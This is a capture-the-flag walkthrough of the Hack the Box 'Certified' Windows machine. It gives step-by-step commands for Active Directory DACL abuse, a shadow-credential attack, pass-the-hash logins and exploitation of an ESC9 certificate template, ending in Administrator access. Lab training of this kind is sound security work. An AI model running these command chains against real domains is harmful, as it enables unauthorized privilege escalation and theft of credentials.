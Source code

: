 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse Active Directory DACLs 
- Successfully execute a shadow credential attack
- Enumerate vulnerable certificate templates and exploit a ESC9 template misconfiguration


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account
![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith

	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader```

4. then give GenericAll privs to judith
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader```

5. then add judith to the management group
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader```
![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc

	```python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180```
![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	
	```python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache```
![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)

8. Export ccache to KRB5CCNAME env var and use AS-REP encryption key from getting TGT to get NT hash of management_svc account using PKINIT tools getnthash.py

	```python3 getnthash.py -key AS_REP_KEY -dc-ip 10.129.130.180 certified.htb/management_svc```

![image](https://github.com/user-attachments/assets/98efc969-2c11-4b5c-8890-777a40922f7d)

9. Can evil-winrm into machine using management_svc hash

	```evil-winrm -i 10.129.130.180 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584```

![image](https://github.com/user-attachments/assets/55e2e59e-2f73-4870-a387-3dfd2e37a651)

10. Bloodhound shows management_svc has GenericAll privs on user ca_operator. Change ca_operator password
	```python3 /opt/bloodyAD/bloodyAD.py --dc-ip 10.129.131.108 -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 set password ca_operator P@ssw0rd```
Success!

![image](https://github.com/user-attachments/assets/23415309-3f97-4fd2-9e6e-31b3feae8432)

11. Get list of certificate templates
	```certipy find -u ca_operator -p P@ssw0rd -dc-ip 10.129.131.108 -enabled```

![image](https://github.com/user-attachments/assets/2a9d2c0d-966e-4345-be32-68f88bfe1f85)

12. CertifiedAuthentication template has ESC9 vulnerability. To exploit ESC9 templates, set the upn of ca_operator to Administrator
	```certipy account update -username management_svc -hashes :[NT_HASH] -upn Administrator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/a41bf04c-24bb-4163-9ed7-a19f9d89980a)

13. Request certificate with changed upn
	```certipy req -u ca_operator@certified.htb -p P@ssw0rd -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/ca644a51-0514-427b-9fcc-d164ff246b38)

14. Change back ca_operator upn to original
	```certipy account update -username management_svc -hashes :[NT_HASH] -upn ca_operator -dc-ip [IP] -user ca_operator```

![image](https://github.com/user-attachments/assets/92e33eb1-c3ca-47be-b0dd-7a2146995aa2)

15. Authenticate with admin certificate and get NT hash of Administrator
	```certipy auth -pfx administrator.pfx -domain certified.htb -dc-ip [IP]```

![image](https://github.com/user-attachments/assets/b1df9eeb-8584-433b-ad17-253920ba04ff)

16. Check administrator hash is correct using pass the hash
	```crackmapexec smb [IP] -u Administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/34eab86c-32f0-413b-8bf5-d00b62a6feea)

17. Pwned! Psexec into machine and get root flag!
	```psexec.py Administrator@[IP] -hashes [HASH]```

![image](https://github.com/user-attachments/assets/c4549cc0-4fe6-427a-a6a7-cc077521e35d)









 
